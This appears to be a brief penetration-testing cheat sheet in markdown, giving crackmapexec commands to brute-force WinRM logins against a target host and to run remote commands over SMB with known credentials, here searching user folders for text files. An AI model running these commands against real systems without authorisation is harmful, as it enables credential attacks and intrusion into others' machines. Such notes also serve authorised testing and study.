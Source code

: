 # WinRM
## Brute force users and passwords
```sh
crackmapexec winrm <ip> -u <username_or_file> -p <password_or_file>
```

# SMB
## Execute CMD commands
```sh
crackmapexec smb -u <user> -p <password> -x 'dir "C:\Users\*.txt" /s' <ip>
```

